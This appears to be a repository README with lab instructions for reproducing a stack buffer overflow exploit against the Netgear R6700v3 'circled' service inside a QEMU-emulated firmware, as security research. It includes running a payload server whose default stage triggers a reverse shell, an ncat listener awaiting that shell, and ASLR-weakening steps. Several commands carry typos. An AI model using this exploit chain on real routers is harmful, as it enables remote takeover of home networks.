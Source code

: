 # Exploiting a Stack Buffer Overflow on the Netgear R6700v3
## 1. Setup
### 1.1 Host System
- Install the following dependencies:
  - git
  - binwalk (https://github.com/ReFirmLabs/binwalk)
- Clone the repository:
  ```
  git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Copy the following files to the firmware's root filesystem:
  ```
  # Variable to the root filesystem
  export ROOTFS="$(pwd)/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
  
  # Copy pre-built gdbserver binary (or compile your own statically-linked version)
  cp firmware/bins/gdbserver $ROOTFS/gdbserver
  
  # Copy pre-built libnvram.so library (or compile your own version)
  cp firmware/bins/libnvram.so $ROOTFS/libnvram.so
  
  # Copy pre-built libcircled.so library (or compile your own version)
  cp firmware/bins/libcircled.so $ROOTFS/libcircled.so

  # Patch the circled binary
  python3 firmware/circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
  
  # Copy circled.sh script
  cp firmware/circled.sh $ROOTFS/circled.sh
  ```
- Copy the directories `$ROOTFS/` and `server/` to an ARMHF guest system (e.g. a *QEMU* ARMHF Debian VM).
### 1.2 ARMHF Guest System
- In the following, we assume that the variable $ROOTFS points to the copied firmware's root filesystem.
- Start the HTTP server delivering the payloads:
  ```
  # Using the default payloads triggering a reverse shell (use `--cmd` for a custom stage 0 payload)
  python3 server/circled.server.py
  ```
- In case the HTTP server was started with the default stage 0 payload (i.e. without customizing `--cmd`), listen for the reverse shell coming in on TCP port 5001:
  ```
  server/bins/ncat -l -p 5001
  ```
- Emulate the vulnerable *circled* binary:
  - Configure conservative ASLR as being used on the Netgear R6700v3:
    ```
    echo 1 | sudo tee /proc/sys/kernel/randomize_va_spac
    ```
  - Chroot into the root filesystem:
    ```
    sudo mount -t proc /proc/ $ROOTFS/proc/
    sudo mount -t sysfs /sys/ $ROOTFS/sys/
    sudo mount -o bind /dev/ $ROOTFS/dev/
    sudo chroot $ROOTFS/ /bin/sh
    ```
  - Execute the *circled* binary:
    ```
    export SHELL=/bin/sh

    # With GDB and therefore without ASRL (omit `--gdb` to run without GDB and with ASRL enabled)
    ./circled.sh --gdb
    ```
## 1. Individual Binary Emulation
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Use *QEMU* to boot an ARMHF Debian system
- Upload the firmware's root filesystem (`_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root/`) to the ARM Debian system
- Build and copy a statically-linked version of *gdbserver* to the root filesystem (`/usr/bin/gdbserver`)
- Emulate the *circled* binary
  - Cross-compile (use *bootlin* toolchain for *armv7-eabihf* and *ulibc*) *libnvram* to emulate non-volatile RAM (NVRAM)
  - Chroot into the root filesystem
    - `sudo mount -t proc /proc/ ./squashfs-root/proc/`
    - `sudo mount -t sysfs /sys/ ./squashfs-root/sys/`
    - `sudo mount -o bind /dev/ ./squashfs-root/dev/`
    - `sudo chroot ./squashfs-root/ /bin/sh`
    - `export SHELL=/bin/sh`
    - `echo 1 | tee /proc/sys/kernel/randomize_va_space`
  - Execute the targeted binary (use `circled.sh` helper script)
- Trace crash (`gdb-multiarch -q -x circled.gdb`)
## 2. References
- Emulating Netgear R6700v3 cicled binary:
  - https://medium.com/@INTfinity/1-1-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-1-5bab391c91f2
  - https://medium.com/@INTfinity/1-2-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-2-cf1571493117
  - https://medium.com/@INTfinity/1-3-exploiting-and-debugging-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-a80dbaf1245d
- Emulating IoT Firmware Made Easy:
  - https://boschko.ca/qemu-emulating-firmware/
- Defeating the Netgear R6700v3:
  - https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html
- Chroot:
  - https://wiki.archlinux.org/title/Chroot#Using_chroot
- Ready-to-Use Cross-Compilation Toolchains:
  - https://toolchains.bootlin.com/
- NVRAM Emulator:
  - https://github.com/firmadyne/libnvram
## 3. Notes
```
git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
export ROOTFS="`pwd`/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
cp binaries/gdbserver $ROOTFS/usr/bin/gdbserver
cp binaries/libnvram.so $ROOTFS/libnvram.so
python3 circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
chmod +x $ROOTFS/bin/circled.patched
cp circled.sh $ROOTFS/circled.sh
chmod +x $ROOTFS/circled.sh
cd libcricled/
make
cp libcircled.so $ROOTFS/libcricled.so
cd ../
```
